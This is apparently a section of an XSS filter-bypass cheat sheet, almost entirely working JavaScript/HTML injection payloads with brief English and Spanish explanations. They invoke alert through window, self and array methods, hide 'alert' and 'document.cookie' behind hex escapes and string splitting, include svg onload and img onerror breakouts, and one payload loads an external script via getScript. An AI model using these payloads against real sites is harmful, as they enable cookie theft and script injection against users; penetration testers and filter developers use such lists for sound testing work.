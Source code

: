 ### Bypass using an alternate way to execute an alert

```javascript
write`XSSed!`
writeln`XSSed!`
writeln`<img/src/o&#78error=alert&lpar;1)&gt;`
write('\74img/src/o\156error\75alert\501\51\76')
"><svg/onload=writeln('\74img/src/o\156error\75alert\501\51\76')>
"><svg/onload=write('\74img/src/o\156error\75alert\501\51\76')>

window['alert'](0)
parent['alert'](1)
self['alert'](2)
top['alert'](3)
this['alert'](4)
frames['alert'](5)
content['confirm'](6)

[7].map(alert)
[8].find(alert)
[9].every(alert)
[10].filter(alert)
[11].findIndex(alert)
[12].forEach(alert);
```

From [@theMiddle](https://www.secjuice.com/bypass-xss-filters-using-javascript-global-variables/) - Using global variables

The Object.keys() method returns an array of a given object's own property names, in the same order as we get with a normal loop. That's means that we can access any JavaScript function by using its **index number instead the function name**.

```javascript
cgonzalo"><svg/onload=window["alert"](window["document"]["cookie"]);>

cgonzalo"><svg/onload=self["ale"+"rt"](self["doc"+"ument"]["coo"+"kie"])>

cgonzalo"><svg/oNmOuSeOvEr=self["\x61\x6c\x65\x72\x74"](self["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]["\x63\x6f\x6f\x6b\x69\x65"])>

cgonzalo"><svg/onload=self["$"]["globalEval"]("alert(1)");>

cgonzalo"><svg/onload=self["\x24"]["\x67\x6c\x6f\x62\x61\x6c\x45\x76\x61\x6c"]("\x61\x6c\x65\x72\x74\x28\x31\x29");>

cgonzalo"><img src="self["$"]["getScript"]("https://example.com/my.js");">

---
Recorrer el array para determinar qué número es "alert":
c=0; for(i in self) { if(i == "alert") { console.log(c); } c++; }

Ejecutar payload con el número encontrado:
cgonzalo"><svg/onload=self[Object.keys(self)[5]](8)>

Ejecutar en una linea todo (a veces no sirve):
cgonzalo"><script>a=()=>{c=0;for(i in self){if(/^a[rel]+t$/.test(i)){return c}c++}};self[Object.keys(self)[a()]]("1")</script>
---
```
